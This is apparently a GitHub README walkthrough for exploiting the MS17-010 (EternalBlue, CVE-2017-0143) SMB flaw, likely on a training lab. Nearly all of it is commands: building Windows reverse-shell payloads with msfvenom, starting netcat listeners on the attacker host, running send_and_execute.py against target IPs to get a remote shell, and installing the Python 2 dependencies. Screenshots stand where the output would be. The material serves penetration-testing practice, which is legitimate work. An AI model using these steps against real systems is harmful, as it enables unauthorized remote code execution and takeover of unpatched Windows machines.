 # MS17-010

🖥️ -c1ph3rm4st3r-
#️⃣ CVE-2017-0143
#️⃣ Tested on Kali 2022-10-10

## Method 1

```
git clone https://github.com/c1ph3rm4st3r/MS17-010_CVE-2017-0143.git
cd MS17-010_CVE-2017-0143/
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.9 LPORT=1337 -f exe -o ms17-010.exe
```

create a `nc` listner
```
nc -nlvp 1337
```

### exploit
```
python2.7 send_and_execute.py 10.129.163.162 ms17-010.exe
```
![image](https://user-images.githubusercontent.com/66146701/199531883-71668ef8-8632-4749-aee3-784310fe7e0d.png)

Incase if you get a error like this folow these steps:
```
cd MS17-010_CVE-2017-0143/
sudo python2.7 get-pip.py
pip2.7 install --upgrade setuptools
python2.7 -m pip install impacket
```

Now we can run the exploit :
![image](https://user-images.githubusercontent.com/66146701/199532542-3c11473e-38e8-41e4-8014-09d2f77b78bf.png)

![image](https://user-images.githubusercontent.com/66146701/199532663-c71527c1-6d9a-4ae0-b979-f3161a65457e.png)


## Method 2

Now this exploit is created in python2 and it require some libraries like impacket , pycrypto . For that virtual environment has to setup and here virtualenv program help .Once you created the environment then you can activate that environment using source utility program . Here python2 is used as interpreter because in latest Kali python3 is set as global interpreter and our exploit is in python2 .

why we use virtual environment ? For that you can check out this . 
https://www.dabapps.com/blog/introduction-to-pip-and-virtualenv-python/

    virtualenv -p python2 venv
    source venv/bin/activate
    pip install impacket
    pip install pycrypto

![image](https://user-images.githubusercontent.com/66146701/124968047-a38cba80-dfd1-11eb-8d98-b627e28bda93.png)

![image](https://user-images.githubusercontent.com/66146701/124968117-b901e480-dfd1-11eb-8af1-6573f78967ef.png)

    python checker.py 10.10.10.4

![image](https://user-images.githubusercontent.com/66146701/124968276-de8eee00-dfd1-11eb-948b-4b5f0804192f.png)

    msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.12 LPORT=4445 -f exe > shell.exe
 
![image](https://user-images.githubusercontent.com/66146701/124969042-b3f16500-dfd2-11eb-8f4a-6552d4a97fbe.png)

    python send_and_execute.py 10.10.10.4 shell.exe 445 browser

![image](https://user-images.githubusercontent.com/66146701/124969166-db483200-dfd2-11eb-927b-41b46fef92a8.png)

    nc -nlvp 4445
    
![image](https://user-images.githubusercontent.com/66146701/124969274-f9ae2d80-dfd2-11eb-8a8a-4c5e2a43935d.png)




